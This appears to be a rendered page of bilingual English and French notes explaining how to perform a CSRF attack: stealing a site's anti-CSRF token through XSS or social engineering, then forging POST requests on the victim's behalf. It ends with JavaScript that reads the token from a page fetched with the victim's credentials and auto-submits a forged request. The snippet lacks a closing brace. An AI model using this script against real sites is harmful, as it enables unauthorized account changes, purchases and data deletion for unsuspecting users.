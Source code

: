To perform a CSRF attack, the first step is to steal the CSRF token from the target website. This token is usually embedded in the HTML source code or included as a cookie. Once the token is obtained, it can be used to craft a malicious POST request.

Pour effectuer une attaque CSRF, la première étape consiste à voler le jeton CSRF du site cible. Ce jeton est généralement intégré dans le code source HTML ou inclus en tant que cookie. Une fois le jeton obtenu, il peut être utilisé pour créer une requête POST malveillante.

To steal the CSRF token, an attacker can use various techniques such as cross-site scripting (XSS) or social engineering. Once the token is obtained, the attacker can then create a form or script that automatically submits a POST request to the target website.

Pour voler le jeton CSRF, un attaquant peut utiliser différentes techniques telles que le cross-site scripting (XSS) ou l'ingénierie sociale. Une fois le jeton obtenu, l'attaquant peut ensuite créer un formulaire ou un script qui soumet automatiquement une requête POST au site cible.

The POST request can be crafted to perform any action that the target website allows, such as changing account settings, making purchases, or deleting data. By tricking the victim into visiting a malicious website or clicking on a malicious link, the attacker can execute the CSRF attack and perform unauthorized actions on behalf of the victim.

La requête POST peut être créée pour effectuer n'importe quelle action autorisée par le site cible, telle que la modification des paramètres du compte, les achats ou la suppression de données. En trompant la victime pour qu'elle visite un site Web malveillant ou qu'elle clique sur un lien malveillant, l'attaquant peut exécuter l'attaque CSRF et effectuer des actions non autorisées au nom de la victime.
```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
xhr.withCredentials = true;

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
var xhr = new XMLHttpRequest();
// This tels it to return it as a HTML document
xhr.responseType = "document";
xhr.withCredentials = true;
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true);
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
page = xhr.response
// Get the input element
input = page.getElementById("token");
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value);
}
};
// Make the request
xhr.send(null);
```